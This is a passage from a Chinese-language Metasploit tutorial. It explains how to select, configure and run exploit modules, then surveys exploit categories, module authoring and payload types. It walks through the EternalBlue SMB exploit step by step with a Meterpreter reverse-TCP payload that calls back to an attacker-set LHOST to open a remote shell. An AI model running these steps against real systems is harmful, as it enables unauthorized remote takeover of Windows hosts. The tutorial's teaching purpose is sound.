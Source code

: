 ### 3. **使用 Exploit 模块的步骤**

1. **选择 Exploit 模块**： 使用 `use` 命令选择一个 Exploit 模块。例如，要使用 `ms17_010_eternalblue` 模块：

   ```
   msf > use exploit/windows/smb/ms17_010_eternalblue
   ```
   
2. **查看模块信息**： 使用 `info` 命令查看 Exploit 模块的详细信息，包括其用途、选项和目标：

   ```
   msf exploit(ms17_010_eternalblue) > info
   ```
   
3. **配置模块选项**： 根据目标环境设置模块的选项。常见选项包括 `RHOSTS`（目标主机）、`LHOST`（攻击者主机）、`PAYLOAD`（负载类型）等：

   ```
   msf exploit(ms17_010_eternalblue) > set RHOSTS [target IP]
   msf exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   msf exploit(ms17_010_eternalblue) > set LHOST [your IP]
   ```

4. **运行 Exploit**： 使用 `run` 或 `exploit` 命令启动攻击：

   ```
   msf exploit(ms17_010_eternalblue) > exploit
   ```
   
5. **监控结果**： 观察 Metasploit 控制台的输出，检查是否成功利用了漏洞。如果攻击成功，将会获得一个 Meterpreter 会话或其他形式的访问。

### 4. **Exploit 模块的分类**

- **远程利用（Remote Exploits）**：这些模块用于攻击远程系统上的漏洞，例如网络服务、Web 应用程序等。
- **本地利用（Local Exploits）**：这些模块用于攻击已经在本地系统上的漏洞，通常涉及权限提升等操作。
- **网络利用（Network Exploits）**：这些模块针对网络协议中的漏洞进行攻击，如 SMB、HTTP、FTP 等。
- **Web 应用利用（Web Application Exploits）**：这些模块用于攻击 Web 应用程序中的漏洞，例如 SQL 注入、跨站脚本（XSS）等。

### 5. **编写和定制 Exploit 模块**

如果需要编写或定制 Exploit 模块，通常包括以下步骤：

- **编写模块代码**：使用 Ruby 编程语言编写 Metasploit 模块。Metasploit 模块通常位于 `/usr/share/metasploit-framework/modules/exploits/` 目录中。
- **定义漏洞**：描述漏洞的影响、攻击方式等。
- **设置目标**：定义支持的操作系统、应用程序版本等。
- **编写利用代码**：实现利用漏洞的代码。
- **测试模块**：在受控环境中测试模块以确保其有效性。

# **Payload 模块概述**

Payload 模块是攻击链中的核心组成部分，它在 Exploit 模块成功利用漏洞后执行。Payload 模块的功能可以从简单的命令行访问到复杂的远程控制和信息收集等。

### 2. **Payload 模块的类型**

Payload 模块通常分为几类，每类模块根据其功能和执行方式有所不同：

#### 2.1. **反向连接（Reverse）**
